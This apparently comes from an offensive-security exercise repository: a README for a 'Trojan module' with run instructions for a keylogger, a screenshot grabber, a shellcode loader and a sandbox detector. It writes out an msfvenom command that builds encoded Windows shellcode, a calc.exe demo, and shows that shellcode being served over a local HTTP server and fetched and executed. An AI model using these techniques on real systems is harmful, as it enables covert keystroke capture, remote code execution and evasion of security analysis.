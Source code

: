 # The Trojan module
## keylogger.py
This should only work on Windows, but I didn't test it on other operating systems.
Run:
```bash
python keylogger.py
```
## screenshotter.py
Run:
```bash
python screenshotter.py
```
Check for a screenshot.bmp file in the current directory.
## shell-exec.py
First, generate the shellcode using msfvenom:
```bash
msfvenom -p windows/exec -e x86/shikata_ga_nai -i 1 -f raw cmd=calc.exe > shellcode.raw
```
Then, convert it into a bin file:
```bash
base64 -w 0 -i shellcode.raw > shellcode.bin
```
At last, on the current directory, run:
```bash
python -m http.server 8100
```
to start a mini-server in no time.

Now, run:
```bash
python shell_exec.py
```
to run the shellcode you just generated!
## sandbox-detect.py
```bash
python sandbox-detect.py
```
